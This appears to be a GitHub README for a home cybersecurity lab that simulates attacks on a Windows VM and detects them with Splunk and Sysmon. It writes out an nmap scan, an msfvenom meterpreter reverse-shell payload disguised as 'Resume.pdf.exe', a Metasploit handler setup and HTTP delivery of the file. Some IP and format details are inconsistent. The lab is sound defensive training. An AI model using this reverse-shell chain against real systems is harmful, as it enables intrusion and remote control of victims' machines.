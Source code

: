 # detection-lab

Objective

The detection-lab project aimed to establish a environment for simulating and detecting cyber attacks. The main focus was to ingest and analyze logs within a Splunk. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

Skills Learned

- Understanding of SIEM and practical application.
- Analyzing network logs.
- Ability to generate and recognize attack signatures.
- Knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

Tools Used

- Splunk for log ingestion and analysis.
- Splunk Universal Forwarder and Sysmon for log collecting/forwarding
- Kali Linux/Metasploit to create realistic network traffic and attack scenarios.

Network Diagram

![detection-lab](https://github.com/user-attachments/assets/df197dc4-81d7-48bd-8549-f5e0e13e41ce)

Steps

First, we need to understand the network connections in the virtual environment. The network we use when testing tools and using sandbox will be different.  

Network Options                Access to Internet          Use Case 
---------------                ------------------          --------
NAT                            Yes                         Test Tools
NAT Network                    Yes                         Test Tools
Bridged                        Yes                         Test Tools
Host-Only                      No                          Analyze Malware 
Internal Network/LAN Segment   No                          Analyze Malware 
Not Attached                   No                          Analyze MAlware 

In this lab, since we are going to create malware with Kali Linux and attack Windows Machine, the lab environment should not be connected to the internet. 

1. Installation and Setup of Virtual Machines 

-Kali Linux (attacker), Windows 10 (victim) and Ubuntu 22.04 (Splunk) were installed on VirtuelBox as virtual machines. Splunk Enterprise was installed on the Ubuntu machine to view logs. Universal Forwarder and Sysmon were installed on Windows 10 machine to send logs to Splunk. After selecting 'Internal Network' as network, fixed IP address was selected on each virtual machine. After all that, we saw that the virtual machines were reachable with the ‘ping’ command.

2. Attack Scenario 

-First I did a port scan with 'nmap' and saw that RDP port 3389 was open. nmap –A 
    192.168.10.100 -Pn 

-Secondly, I created malware with the 'msfvenom' payload. Here I chose the 'meterpreter/reverse_tcp' payload. 
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.250 lport=4444 -f ece -o Resume.pdf.exe 

-With this malware we will obtain a 'reverse shell' and create a connection to our own machine. After logging into the msfconsole where I will execute the attack, I entered the values for the payload we selected and started the attack.
    use exploit/multi/handler 
    options 		#to see what we can configure 
    set payload windows/x64/meterpreter/reverse_tcp 
    set lhost 192.168.2.250 
    set lport 4444 		#this is already given 
    exploit 

-After that, we wait for the victim machine to run the malware. For this we will create an HTTP Server on the Kali Linux machine so that the victim machine can download the malware from there. 
    python3 -m http.server 9999 		#make sure to run it in the directory where the malware is located 

3. Exploitation 
 
-First we need to deactivate Windows Security on the Windows (victim) machine. Then I connected to the 192.168.0.250:9999 server from the web browser and downloaded the malware file 'Resume.pdf.exe' and ran it. When I looked at the network connections from the cmd console, I saw that there was a TCP connection from 192.168.10.100 to 192.168.10.250. 
    netstat -anob 

-After that, we can now connect to the Windows machine with the 'shell' command on the Kali Linux machine and enter the commands we want. 

4. Monitoring with Splunk 

-Since I have installed sysmon on the Windows (victim) machine and configured it to send logs to Splunk, I can deep dive into logs. 

Note: Sysmon logs are not fully parsed by Splunk so don't forget to install Splunk Add-on for Sysmon. 
